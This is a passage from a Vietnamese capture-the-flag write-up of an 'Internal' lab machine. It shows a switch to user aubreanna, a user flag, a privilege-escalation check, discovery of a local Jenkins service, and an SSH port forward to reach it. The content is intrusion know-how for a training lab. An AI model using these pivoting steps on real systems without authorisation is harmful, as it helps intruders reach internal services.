 Đổi sang user *aubreanna* và tôi có *user flag* ở đây.

```python
www-data@internal:/opt$ su aubreanna
Password: 
aubreanna@internal:/opt$ cd
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ 
```

## Privilege escalation

Việc đầu tiên tôi hay làm trong khâu này là sử dụng các phương pháp đươn giản trước như là `sudo -l` hay tìm các chương trình chạy bằng root, hay cả crontab nhưng đều không có kết quả.

Thử mở nốt file txt còn lại bên trong *aubreanna*

```python
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Tôi thử kiểm tra dịch vụ đang chạy với "netstat"

```python
aubreanna@internal:~$ netstat -tan | grep 8080
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN    
```

Jenkins đang chạy local với port 8080. Để truy cập được port này, tôi sẽ dùng __SSH tunneling__ để chuyển tiếp port 8080 sang 1 port của máy tôi. Từ đó tôi có thể truy cập vào localhost của target machine

```python
┌──(neo㉿kali)-[~]
└─$ ssh -L 2402:127.0.0.1:8080 aubreanna@10.10.51.65
```

Truy cập vào localhost với port 2402

![jenkins](/assets/img/2021-12-05-THM-Internal/7.webp)
